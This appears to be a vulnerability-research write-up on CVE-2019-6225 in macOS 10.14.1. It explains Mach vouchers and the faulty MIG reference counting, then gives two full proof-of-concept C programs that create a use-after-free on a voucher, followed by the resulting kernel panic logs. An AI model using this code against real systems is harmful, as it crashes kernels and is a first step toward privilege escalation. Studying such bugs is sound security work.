





## Mission Completed
Obtain kernel r/w primitive<br>

## Environment
macOS 10.14.1 (18B75, 4core/4thread) / QEMU in Ubuntu 24.04 VMWare (16core)

# Understanding CVE-2019-6225 (smachswap2)

## Prerequisite Knowledge

### Mach?

Mach is an IPC (Inter-Process Communication) layer that allows processes within the system to communicate with each other.

Not only the kernel, but also system services and daemons that handle specific tasks use Mach, the IPC layer.

ex) bluetoothd daemon process implements a Mach server, which is used to set up and manage Bluetooth connections.

### MIG?

MIG stands for Mach Interface Generator.

Much of the code written using the Mach API contains the same boilerplate code, and repeating this can lead to complexity or security vulnerabilities.

(Boilerplate code: **Code fragments that are reused in many places with little or no modification)**

This is where the Mach Interface Generator becomes very useful, handling all the complex Mach-related tasks.
This includes message management, reply ports, timeouts, object lifetime or reference count management.

### IPC Voucher?

An object that stores an immutable key–value set inside the kernel and represents it as a Mach port (send right).

By passing "recipes" to the host_create_mach_voucher MIG method of the host port, you can create a voucher and obtain a send right to the Mach port representing that voucher.

Another important point is that vouchers must be unique,
and for the same set of keys and values, exactly one Mach port must represent it. If you provide another recipe with the same set of keys and values, you get the same voucher and port.

```cpp
    File: ./osfmk/ipc/ipc_voucher.h
    63: /*
    64:  * IPC Voucher
    65:  *
    66:  * A voucher is an immutable (cannot be changed once created) object with reference counting,
    67:  * containing an index set for attribute values of a specific resource manager.
    68:  * These attribute values are also reference counted.
    69:  */
    70: struct ipc_voucher {
    71: 	iv_index_t		iv_hash;	/* checksum hash */
    72: 	iv_index_t		iv_sum;		/* checksum of values */
    73: 	os_refcnt_t		iv_refs;	/* reference count */
    74: 	iv_index_t		iv_table_size;	/* size of the voucher table */
    75: 	iv_index_t		iv_inline_table[IV_ENTRIES_INLINE];
    76: 	iv_entry_t		iv_table;	/* table of voucher attr entries */
    77: 	ipc_port_t		iv_port;	/* port representing the voucher */
    78: 	queue_chain_t		iv_hash_link;	/* link on hash chain */
    79: };
    80: 
    81: #define IV_NULL 	IPC_VOUCHER_NULL
```

## Root Cause Analysis of the Bug

[https://github.com/apple-oss-distributions/xnu/blob/xnu-4903.221.2](https://github.com/apple-oss-distributions/xnu/blob/xnu-4903.221.2)

You can check the `task_swap_mach_voucher` function in `/xnu-4903.221.2/osfmk/kern/task.c`.

This function simply swaps a new voucher and an old voucher.



To see what bug is actually present in this code, you need to look at the MIG auto-generated code that calls `task_swap_mach_voucher`.

You can generate code using the MIG tool with the following commands.

This was done on macOS 10.14.1 with xnu-4903.221.2.

To generate a MIG wrapper, create a temporary directory and run mig on the task.defs file.

The task.defs file is located at /osfmk/mach/task.defs.

```bash
cd ~/xnu-4903.221.2

mkdir work

cd work

cp ../osfmk/mach/task.defs .

mig -DKERNEL -DKERNEL_SERVER task.defs
```



The following is the relevant MIG definition for `task_swap_mach_voucher`.

You can check it at osfmk/mach/task.defs:455,
and the `task_swap_mach_voucher` function is a placeholder.

This indicates that it is actually a Mach API,
since the MIG definition files generate code for Mach interfaces.

```c
routine task_swap_mach_voucher(
                               task        : task_t;
                               new_voucher : ipc_voucher_t;
                         inout old_voucher : ipc_voucher_t);

/* IPC voucher internal object */
type ipc_voucher_t = mach_port_t
     intran: ipc_voucher_t convert_port_to_voucher(mach_port_t)
     outtran: mach_port_t convert_voucher_to_port(ipc_voucher_t)
     destructor: ipc_voucher_release(ipc_voucher_t)
;
```

Check the task.h file in the temporary directory where you generated the MIG wrapper.

From line 2047, you can see the Mach message format for the `task_swap_mach_voucher` function.



And from line 6732 in the `task_server.c` file, you can see the checks performed for this function request.



The actual implementation can be found from line 6775 in the `task_server.c` file,
where you can identify the vulnerability.

```c
/* Routine task_swap_mach_voucher */
mig_internal novalue _Xtask_swap_mach_voucher
    (mach_msg_header_t *InHeadP, mach_msg_header_t *OutHeadP)
{
...
    kern_return_t RetCode;
    task_t task;
    ipc_voucher_t new_voucher;
    ipc_voucher_t old_voucher;
...
    task = convert_port_to_task(In0P->Head.msgh_request_port);

// 1. Reference count of new_voucher + 1
    new_voucher = convert_port_to_voucher(In0P->new_voucher.name);
// 2. Reference count of old_voucher + 1
    old_voucher = convert_port_to_voucher(In0P->old_voucher.name);
// 3. task_swap_mach_voucher called -> old_voucher = new_voucher
    RetCode = task_swap_mach_voucher(task, new_voucher, &old_voucher);
// 4. Reference count of new_voucher - 1
    ipc_voucher_release(new_voucher);
    task_deallocate(task);
    if (RetCode != KERN_SUCCESS) {
        MIG_RETURN_ERROR(OutP, RetCode);
    }
...
    if (IP_VALID((ipc_port_t)In0P->old_voucher.name))
        ipc_port_release_send((ipc_port_t)In0P->old_voucher.name);

    if (IP_VALID((ipc_port_t)In0P->new_voucher.name))
        ipc_port_release_send((ipc_port_t)In0P->new_voucher.name);
...
// 5. Reference count of new_voucher - 1 (Because old_voucher is now new_voucher)
    OutP->old_voucher.name = (mach_port_t)convert_voucher_to_port(old_voucher);

    OutP->Head.msgh_bits |= MACH_MSGH_BITS_COMPLEX;
    OutP->Head.msgh_size = (mach_msg_size_t)(sizeof(Reply));
    OutP->msgh_body.msgh_descriptor_count = 1;
    ...
}
```

- Pictures following the internal code
    
    Pictures following the code; it is recommended to download and view them
    
    
    


Now you should start to see the problem. 
The reference count of **new_voucher** can decrease to 0 and the object can be freed,
while the reference count of **old_voucher** can increase too much.

Therefore, a dangling pointer pointing to the voucher can be created,

This is possible by saving a pointer to the voucher, then exploiting the vulnerability to decrease the reference count of the voucher to 0 and freeing it.


## Proof of Concept Code 1

The following proof of concept code creates a Mach voucher,
then uses `thread_set_mach_voucher()` to store a reference to the voucher in the current thread's `ith_voucher` field.

Afterwards, it uses `task_swap_mach_voucher()` to decrease the reference count by 1, and frees the voucher port in user space to free the voucher.

This leaves a dangling pointer to the freed voucher's memory in `ith_voucher`, and accessing this pointer via `thread_get_mach_voucher()` causes a kernel panic.

- poc1.c

```c
#include <assert.h>
#include <mach/mach.h>
#include <stdio.h>
#include <unistd.h>

// Stash the host port for create_voucher().
mach_port_t host;

/*
 * create_voucher
 *
 * Description:
 * 	Create a Mach voucher. If id is unique, then this will be a unique voucher (until another
 * 	call to this function with the same id).
 *
 * 	A Mach voucher port for the voucher is returned. The voucher has 1 reference, while the
 * 	voucher port has 2 references and 1 send right.
 */
static mach_port_t
create_voucher(uint64_t id) {
    assert(host != MACH_PORT_NULL);
    mach_port_t voucher = MACH_PORT_NULL;
#pragma clang diagnostic push
#pragma clang diagnostic ignored "-Wgnu-variable-sized-type-not-at-end"
    struct __attribute__((packed)) {
        mach_voucher_attr_recipe_data_t user_data_recipe;
        uint64_t user_data_content[2];
    } recipes = {};
#pragma clang diagnostic pop
    recipes.user_data_recipe.key = MACH_VOUCHER_ATTR_KEY_USER_DATA; //7
    recipes.user_data_recipe.command = MACH_VOUCHER_ATTR_USER_DATA_STORE; //211
    recipes.user_data_recipe.content_size = sizeof(recipes.user_data_content);
    recipes.user_data_content[0] = getpid();
    recipes.user_data_content[1] = id;
    kern_return_t kr = host_create_mach_voucher(
            host,
            (mach_voucher_attr_raw_recipe_array_t) &recipes,
            sizeof(recipes),
            &voucher);
    assert(kr == KERN_SUCCESS);
    assert(voucher != MACH_PORT_NULL);
    return voucher;
}

/*
 * voucher_tweak_references
 *
 * Description:
 * 	Use the task_swap_mach_voucher() vulnerabilities to modify the reference counts of 2
 * 	vouchers. 
 *
 */
static void
voucher_tweak_references(mach_port_t release_voucher, mach_port_t reference_voucher) {
    // Call task_swap_mach_voucher() to tweak the reference counts (two bugs in one!).
    mach_port_t inout_voucher = reference_voucher;
    kern_return_t kr = task_swap_mach_voucher(mach_task_self(), release_voucher, &inout_voucher);
    assert(kr == KERN_SUCCESS);
    // At this point we've successfully tweaked the voucher reference counts, but our port
    // reference counts might be messed up because of the voucher port returned in
    // inout_voucher! We need to deallocate it (it's extra anyways, since
    // task_swap_mach_voucher() doesn't swallow the existing send rights).
    if (MACH_PORT_VALID(inout_voucher)) {
        kr = mach_port_deallocate(mach_task_self(), inout_voucher);
        assert(kr == KERN_SUCCESS);
    }
}

/*
 * voucher_reference
 *
 * Description:
 * 	Add a reference to the voucher represented by the voucher port.
 */
static void
voucher_reference(mach_port_t voucher) {
    voucher_tweak_references(MACH_PORT_NULL, voucher);
}

/*
 * voucher_release
 *
 * Description:
 * 	Release a reference on the voucher represented by the voucher port.
 */
static void
voucher_release(mach_port_t voucher) {
    voucher_tweak_references(voucher, MACH_PORT_NULL);
}

/*
 * thread_stash_freed_voucher
 *
 * Description:
 * 	Stash a pointer to a freed voucher object in the current thread's ith_voucher field. This
 * 	voucher can be accessed later with thread_get_mach_voucher().
 */
static void
thread_stash_freed_voucher(mach_port_t thread_self) {
    // Create a unique voucher. This voucher will have 1 voucher reference, 2 port references,
    // and 1 port send right.
    mach_port_t voucher = create_voucher(0);
    // Stash a copy of the voucher in our thread. This will bump the voucher references to 2.
    kern_return_t kr = thread_set_mach_voucher(thread_self, voucher);
    assert(kr == KERN_SUCCESS);
    // Now drop the voucher reference count to 1. The port reference count is still 2.
    voucher_release(voucher);
    // Next deallocate our send right to the voucher port. This drops the port send right
    // count to 0 (although the port reference count is still 1), causing a no-senders
    // notification to be triggered. The no-senders notification calls ipc_voucher_notify(),
    // which releases the final voucher reference. In the process of freeing the voucher,
    // ipc_port_dealloc_kernel() is called on the port, so the port is also freed.
    kr = mach_port_deallocate(mach_task_self(), voucher);
    assert(kr == KERN_SUCCESS);
    // This leaves a dangling pointer to the voucher in thread_self->ith_voucher. We can access
    // the freed voucher and voucher port with a call to thread_get_mach_voucher().
}

int
main(int argc, const char *argv[]) {
    host = mach_host_self();
    mach_port_t thread = mach_thread_self();
    // Stash a pointer to a freed ipc_voucher_t in this thread's ith_voucher field.
    thread_stash_freed_voucher(thread);
    // The following call should trigger a panic.
    mach_port_t voucher;
    thread_get_mach_voucher(thread, 0, &voucher);
    return 0;
}
```

### Crash Log

*** Panic Report ***
panic(cpu 0 caller 0xffffff800ebe5739): "os_refcnt: used unsafely when zero (rc=0xffffff80173ee918, grp=<null>)\n"@/BuildRoot/Library/Caches/com.apple.xbs/Sources/xnu/xnu-4903.221.2/libkern/os/refcnt.c:49

```bash
Anonymous UUID:       669CA505-4C1E-F5BE-EFB4-13F2D89CF791

Thu Jul 31 13:16:29 2025

*** Panic Report ***
panic(cpu 0 caller 0xffffff800ebe5739): "os_refcnt: used unsafely when zero (rc=0xffffff80173ee918, grp=<null>)\n"@/BuildRoot/Library/Caches/com.apple.xbs/Sources/xnu/xnu-4903.221.2/libkern/os/refcnt.c:49
Backtrace (CPU 0), Frame : Return Address
0xffffff8872ee3a40 : 0xffffff800ebaca9d mach_kernel : _handle_debugger_trap + 0x48d
0xffffff8872ee3a90 : 0xffffff800ece6893 mach_kernel : _kdp_i386_trap + 0x153
0xffffff8872ee3ad0 : 0xffffff800ecd82ba mach_kernel : _kernel_trap + 0x4fa
0xffffff8872ee3b40 : 0xffffff800eb59ca0 mach_kernel : _return_from_trap + 0xe0
0xffffff8872ee3b60 : 0xffffff800ebac4b7 mach_kernel : _panic_trap_to_debugger + 0x197
0xffffff8872ee3c80 : 0xffffff800ebac303 mach_kernel : _panic + 0x63
0xffffff8872ee3cf0 : 0xffffff800ebe5739 mach_kernel : _thread_get_mach_voucher + 0x1d9
0xffffff8872ee3d40 : 0xffffff800ec20097 mach_kernel : _thread_act_server_routine + 0x2627
0xffffff8872ee3d80 : 0xffffff800ebb218d mach_kernel : _ipc_kobject_server + 0x12d
0xffffff8872ee3dd0 : 0xffffff800eb8cb45 mach_kernel : _ipc_kmsg_send + 0x225
0xffffff8872ee3e50 : 0xffffff800eba14fe mach_kernel : _mach_msg_overwrite_trap + 0x38e
0xffffff8872ee3ef0 : 0xffffff800ecbfa0b mach_kernel : _mach_call_munger64 + 0x22b
0xffffff8872ee3fa0 : 0xffffff800eb5a486 mach_kernel : _hndl_mach_scall64 + 0x16

BSD process name corresponding to current thread: poc
Boot args: -v keepsyms=1 amfi_get_out_of_my_way=1 tlbto_us=0 vti=9 

Mac OS version:
18B75

Kernel version:
Darwin Kernel Version 18.2.0: Fri Oct  5 19:41:49 PDT 2018; root:xnu-4903.221.2~2/RELEASE_X86_64
Kernel UUID: 5D53F7E4-472A-369D-97D8-4DD877A4BDFF
Kernel slide:     0x000000000e800000
Kernel text base: 0xffffff800ea00000
__HIB  text base: 0xffffff800e900000
System model name: iMacPro1,1 (Mac-7BA5B2D9E42DDD94)

System uptime in nanoseconds: 4049157191071
last loaded kext at 384662062545: com.apple.filesystems.msdosfs	1.10 (addr 0xffffff7f91898000, size 69632)
last unloaded kext at 549447060680: com.apple.filesystems.msdosfs	1.10 (addr 0xffffff7f91898000, size 69632)
loaded kexts:
as.acidanthera.BrcmFirmwareStore	2.6.9
as.vit9696.AppleALC	1.9.0
as.vit9696.WhateverGreen	1.6.7
as.vit9696.Lilu	1.6.8
com.apple.driver.X86PlatformShim	1.0.0
com.apple.driver.AGPM	110.23.46
com.apple.driver.ApplePlatformEnabler	2.7.0d0
com.apple.fileutil	1
com.apple.filesystems.autofs	3.0
com.apple.driver.AppleHDA	282.10
com.apple.driver.Apple16X50ACPI	3.2
com.apple.driver.AppleOSXWatchdog	1
com.apple.AGDCPluginDisplayMetrics	3.25.6
com.apple.driver.AppleHV	1
com.apple.iokit.IOUserEthernet	1.0.1
com.apple.iokit.IOBluetoothSerialManager	6.0.9f2
com.apple.Dont_Steal_Mac_OS_X	7.0.0
com.apple.driver.AppleIntelSlowAdaptiveClocking	4.0.0
com.apple.driver.AppleUpstreamUserClient	3.6.5
com.apple.driver.AppleMCCSControl	1.5.6
com.apple.filesystems.apfs	945.220.38
com.apple.driver.AppleVmxnet3Ethernet	1.0.8
com.apple.driver.AppleAHCIPort	329.200.2
com.apple.driver.AppleVirtIO	2.0.9
com.apple.filesystems.hfs.kext	407.200.4
com.apple.AppleFSCompression.AppleFSCompressionTypeDataless	1.0.0d1
com.apple.BootCache	40
com.apple.AppleFSCompression.AppleFSCompressionTypeZlib	1.0.0
com.apple.AppleSystemPolicy	1.0
com.apple.private.KextAudit	1.0
com.apple.driver.AppleACPIButtons	6.1
com.apple.driver.AppleHPET	1.8
com.apple.driver.AppleRTC	2.0
com.apple.driver.AppleSMBIOS	2.1
com.apple.driver.AppleAPIC	1.7
com.apple.nke.applicationfirewall	190
com.apple.security.TMSafetyNet	8
com.apple.kext.triggers	1.0
com.apple.driver.DspFuncLib	282.10
com.apple.kext.OSvKernDSPLib	527
com.apple.driver.Apple16X50Serial	3.2
com.apple.driver.AppleHDAController	282.10
com.apple.iokit.IOHDAFamily	282.10
com.apple.driver.X86PlatformPlugin	1.0.0
com.apple.driver.IOPlatformPluginFamily	6.0.0d8
com.apple.iokit.IOAVBFamily	710.1
com.apple.plugin.IOgPTPPlugin	700.7
com.apple.iokit.IOEthernetAVBController	1.1.0
com.apple.driver.AppleSSE	1.0
com.apple.iokit.IOSurface	255.1
com.apple.iokit.IOBluetoothFamily	6.0.9f2
com.apple.AppleGPUWrangler	3.25.6
com.apple.AppleGraphicsDeviceControl	3.25.6
com.apple.iokit.IOSlowAdaptiveClockingFamily	1.0.0
com.apple.driver.AppleSMBusController	1.0.18d1
com.apple.iokit.IOSMBusFamily	1.1
com.apple.iokit.IONDRVSupport	530
com.apple.iokit.IOGraphicsFamily	530.12
com.apple.iokit.IOAHCIBlockStorage	301.200.2
com.apple.driver.usb.IOUSBHostHIDDevice	1.2
com.apple.iokit.IOAudioFamily	206.5
com.apple.vecLib.kext	1.2.0
com.apple.driver.usb.networking	5.0.0
com.apple.driver.usb.AppleUSBHostCompositeDevice	1.2
com.apple.iokit.IOAHCIFamily	288
com.apple.driver.usb.AppleUSBEHCIPCI	1.2
com.apple.driver.usb.AppleUSBEHCI	1.2
com.apple.iokit.IOSerialFamily	11
com.apple.filesystems.hfs.encodings.kext	1
com.apple.driver.usb.AppleUSBHostPacketFilter	1.0
com.apple.iokit.IOUSBFamily	900.4.2
com.apple.driver.AppleEFINVRAM	2.1
com.apple.driver.AppleEFIRuntime	2.1
com.apple.iokit.IOHIDFamily	2.0.0
com.apple.security.quarantine	3
com.apple.security.sandbox	300.0
com.apple.kext.AppleMatch	1.0.0d1
com.apple.driver.DiskImages	493.0.0
com.apple.driver.AppleFDEKeyStore	28.30
com.apple.driver.AppleEffaceableStorage	1.0
com.apple.driver.AppleKeyStore	2
com.apple.driver.AppleUSBTDM	456.200.8
com.apple.driver.AppleMobileFileIntegrity	1.0.5
com.apple.kext.CoreTrust	1
com.apple.iokit.IOUSBMassStorageDriver	145.200.2
com.apple.iokit.IOSCSIBlockCommandsDevice	408.200.1
com.apple.iokit.IOSCSIArchitectureModelFamily	408.200.1
com.apple.iokit.IOStorageFamily	2.1
com.apple.driver.AppleCredentialManager	1.0
com.apple.driver.KernelRelayHost	1
com.apple.iokit.IOUSBHostFamily	1.2
com.apple.driver.usb.AppleUSBCommon	1.0
com.apple.driver.AppleBusPowerController	1.0
com.apple.driver.AppleSEPManager	1.0.1
com.apple.driver.IOSlaveProcessor	1
com.apple.iokit.IOReportFamily	47
com.apple.iokit.IOTimeSyncFamily	700.7
com.apple.iokit.IONetworkingFamily	3.4
com.apple.driver.AppleACPIPlatform	6.1
com.apple.driver.AppleSMC	3.1.9
com.apple.iokit.IOPCIFamily	2.9
com.apple.iokit.IOACPIFamily	1.4
com.apple.kec.pthread	1
com.apple.kec.Libm	1
com.apple.kec.corecrypto	1.0

EOF
Model: iMacPro1,1, BootROM 2022.100.22.0.0, 1 processor, Intel Core 2 Solo, 3.8 GHz, 2 GB, SMC 
Graphics: Display, 3 MB
Memory Module: DIMM 0, 2 GB, RAM, 0 MHz, QEMU, Unknown
Network Service: Ethernet, Ethernet, en0
Serial ATA Device: QEMU HARDDISK, 402.7 MB
Serial ATA Device: QEMU HARDDISK, 14.68 GB
Serial ATA Device: QEMU HARDDISK, 68.72 GB
USB Device: USB 2.0 Bus
USB Device: QEMU USB Mouse
USB Device: QEMU USB Keyboard
Thunderbolt Bus: 
```

## Proof of Concept Code 2

To explain this code,
first, p1 (target voucher) is assigned to our thread so it can be accessed later.

When we try to retrieve it,
the reference count of p1 increases — currently p1's reference count is 2.

Here, since the task_swap_mach_voucher function can decrease p1's ref count,
after swapping with p3, the voucher is freed.

Again, a dangling pointer to the freed voucher remains in `ith_voucher`,
and accessing this pointer via `thread_get_mach_voucher()` causes a kernel panic.

- poc2.c

```c
#include <assert.h>
#include <mach/mach.h>
#include <stdio.h>
#include <unistd.h>

int
main(int argc, const char *argv[]) {
    mach_voucher_attr_recipe_data_t atm_data = 
    {
            .key = MACH_VOUCHER_ATTR_KEY_ATM, //1
            .command = 510
    };

    mach_port_t p1;
    kern_return_t ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p1);

    mach_port_t p2;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p2);

    mach_port_t p3;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p3);

    /* 
            We assign p1 (our target voucher) onto our thread so it can be accessed again later.
            When we later try to retreive it 
            This will increment a ref on the voucher -- the current refcount is 2 
    */
    ret = thread_set_mach_voucher(mach_thread_self(), p1);

    ret = task_swap_mach_voucher(mach_task_self(), p1, &p2); // Trigger the bug once, this drops a ref from 2 to 1 

    ret = task_swap_mach_voucher(mach_task_self(), p1, &p3); // Second trigger, this frees the voucher (refcnt=0)

    /* Ask for a handle on the danging voucher, 9 times out of 10 this will cause a panic due to the bad refcnt etc */ 
    mach_port_t real_port_to_fake_voucher = MACH_PORT_NULL;
    ret = thread_get_mach_voucher(mach_thread_self(), 0, &real_port_to_fake_voucher);
}
```

### Crash Log

```c
Anonymous UUID:       669CA505-4C1E-F5BE-EFB4-13F2D89CF791

Sat Aug  2 14:22:23 2025

*** Panic Report ***
panic(cpu 0 caller 0xffffff80187e5739): "os_refcnt: overflow (rc=0xffffff8024c03b48, grp=<null>)\n"@/BuildRoot/Library/Caches/com.apple.xbs/Sources/xnu/xnu-4903.221.2/libkern/os/refcnt.c:58
Backtrace (CPU 0), Frame : Return Address
0xffffff801e653a40 : 0xffffff80187aca9d mach_kernel : _handle_debugger_trap + 0x48d
0xffffff801e653a90 : 0xffffff80188e6893 mach_kernel : _kdp_i386_trap + 0x153
0xffffff801e653ad0 : 0xffffff80188d82ba mach_kernel : _kernel_trap + 0x4fa
0xffffff801e653b40 : 0xffffff8018759ca0 mach_kernel : _return_from_trap + 0xe0
0xffffff801e653b60 : 0xffffff80187ac4b7 mach_kernel : _panic_trap_to_debugger + 0x197
0xffffff801e653c80 : 0xffffff80187ac303 mach_kernel : _panic + 0x63
0xffffff801e653cf0 : 0xffffff80187e5739 mach_kernel : _thread_get_mach_voucher + 0x1d9
0xffffff801e653d40 : 0xffffff8018820097 mach_kernel : _thread_act_server_routine + 0x2627
0xffffff801e653d80 : 0xffffff80187b218d mach_kernel : _ipc_kobject_server + 0x12d
0xffffff801e653dd0 : 0xffffff801878cb45 mach_kernel : _ipc_kmsg_send + 0x225
0xffffff801e653e50 : 0xffffff80187a14fe mach_kernel : _mach_msg_overwrite_trap + 0x38e
0xffffff801e653ef0 : 0xffffff80188bfa0b mach_kernel : _mach_call_munger64 + 0x22b
0xffffff801e653fa0 : 0xffffff801875a486 mach_kernel : _hndl_mach_scall64 + 0x16

BSD process name corresponding to current thread: poc
Boot args: -v keepsyms=1 amfi_get_out_of_my_way=1 tlbto_us=0 vti=9 

Mac OS version:
18B75

Kernel version:
Darwin Kernel Version 18.2.0: Fri Oct  5 19:41:49 PDT 2018; root:xnu-4903.221.2~2/RELEASE_X86_64
Kernel UUID: 5D53F7E4-472A-369D-97D8-4DD877A4BDFF
Kernel slide:     0x0000000018400000
Kernel text base: 0xffffff8018600000
__HIB  text base: 0xffffff8018500000
